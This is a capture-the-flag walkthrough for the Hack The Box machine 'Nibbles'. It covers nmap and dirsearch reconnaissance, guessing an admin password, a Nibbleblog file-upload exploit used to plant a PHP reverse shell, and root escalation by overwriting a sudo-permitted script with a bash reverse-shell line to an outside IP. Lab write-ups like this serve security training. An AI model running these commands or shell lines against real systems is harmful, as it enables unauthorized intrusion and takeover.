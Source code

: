 #Hack The Box:Nibbles

Nmap scan 

```zsh 
nmap -sS -p- -r -Pn 10.10.10.75
```
Dirsearch/Gobuster reveal nothing interesting

Check source to find /nibbleblog

Go to the url ```http://10.10.10.75/nibbleblog```. Now do a dirsearch.

```zsh
python3 dirsearch.py -u http://10.10.10.75/nibbleblog/ -e r -R 3
```

Interesting URL

```/nibbleblog/admin.php```

Now take guess at the username&password:```admin-nibble```
And you have logged in.

```zsh 
searchsploit nibble
```
```Nibbleblog 4.0.3 - Arbitrary File Upload``` looked interesting on reading the exploit. 
```https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html```

Basically the url ```http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image``` lets you upload file arbitrarily.

Get this php reverseshell from ```/usr/share/webshells/php/php-reverse-shell.php```

Edit with your IP and Listener ```rlwrap nc -lvnp 443```

Visit the file which gets stored as image.php by default.
And now you have a shell.

Unzip the ```personal.zip``` in the home directory and you will find a script inside known as ```monitor.sh```

Do a ```sudo -l``` and this will show the follwing.

```User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Check permissions on the file. You have read,write,execute permission. Remove the file and simply write a script named monitor.sh with the following inside.

```
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.5/80 0>&1
```
Start a listener at port 80. Run the file now using:

```sudo -u root  /home/nibbler/personal/stuff/monitor.sh```
And you will have aa shell as root.
